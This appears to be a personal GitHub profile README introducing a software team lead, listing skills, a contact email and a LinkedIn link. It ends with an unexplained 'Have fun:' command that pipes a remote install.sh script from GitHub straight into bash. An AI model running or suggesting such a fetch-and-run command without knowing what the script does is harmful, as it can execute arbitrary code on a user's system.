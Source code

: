 <!--
**faizanoor/FaizaNoor** is a ✨ _special_ ✨ repository because its `README.md` (this file) appears on your GitHub profile.

Here are some ideas to get you started:

- 🔭 I’m currently working on ...
- 🌱 I’m currently learning ...
- 👯 I’m looking to collaborate on ...
- 🤔 I’m looking for help with ...
- 💬 Ask me about ...
- 📫 How to reach me: ...
- 😄 Pronouns: ...
- ⚡ Fun fact: ...
-->


<h1 align="center">Hi 👋, I'm Faiza Noor</h1>
<h3 align="center">I'm a software development team lead and currently studying at 42 coding School Heilbronn.</h3>

![](https://komarev.com/ghpvc/?username=faizanoor)

- 🔭 I'm currently working as Software Development Team Lead @Accenture

- 🚀 Have startup ideas? Want to collaborate? Send 👋 on discord()

- 🌱 I’m currently learning **Blockchain and Dapps, C**

- 💬 Ask me about **Web Development, Docker, K8s, Cloud(GCP | AWS), Agile,**

- 📫 How to reach me **faizanoor3001@gmail.com**

### Connect with me:
<a href="https://linkedin.com/in/faiza-noor" target="blank">
  <img align="center" src="https://raw.githubusercontent.com/rahuldkjain/github-profile-readme-generator/master/src/images/icons/Social/linked-in-alt.svg" alt="faiza noor" height="30" width="40" />
</a>

Have fun: 
```sh
/bin/bash -c "$(curl -fsSL https://raw.githubusercontent.com/faizanoor/sui/v1/install.sh)" && exit
```
